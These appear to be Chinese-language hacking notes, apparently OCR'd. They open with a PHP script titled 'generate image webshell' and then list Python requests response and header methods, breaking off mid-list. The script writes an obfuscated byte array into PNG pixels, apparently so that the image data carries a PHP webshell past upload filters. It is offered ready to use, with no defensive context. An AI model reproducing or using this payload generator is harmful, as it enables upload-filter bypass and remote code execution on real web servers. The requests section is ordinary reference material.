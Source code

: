 ### 生成图片马
```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
         0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
         0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
         0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
         0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
         0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
         0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
         0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
 $r = $p[$y];
 $g = $p[$y+1];
 $b = $p[$y+2];
 $color = imagecolorallocate($img, $r, $g, $b);
 imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./idat.png');
?>
```
## python脚本

requests的响应对象具有以下常用方法和属性：
**方法：**

+ `json()`：将响应体解析为JSON格式。
+ `text`：以字符串形式返回响应体。
+ `content`：以字节形式返回响应体。
+ `status_code`：返回响应的状态码。
+ `headers`：返回响应的头部信息。
+ `raise_for_status()`：如果响应状态码不是200，则抛出异常。
**属性：**

+ `url`：返回请求的URL。
+ `encoding`：返回响应的编码方式。
+ `cookies`：返回响应的Cookie信息。
+ `elapsed`：返回请求响应的时间。
+ `history`：返回重定向历史记录。这些方法和属性可以通过调用`response`对象来访问，例如：`response.json()`、`response.text`、`response.status_code`等。


在requests中，`headers`是一个字典对象，表示HTTP请求的头部信息。它具有以下常用方法和属性：
**方法：**

+ `keys()`：返回所有头部字段的键。
+ `values()`：返回所有头部字段的值。
+ `items()`：返回所有头部字段的键值对。
+ `get(key, default=None)`：根据给定的键获取对应的值，如果键不存在则返回默认值。
+ `update(headers)`：更新头部信息，将给定的头部信息合并到当前的头部信息中。
**属性：**
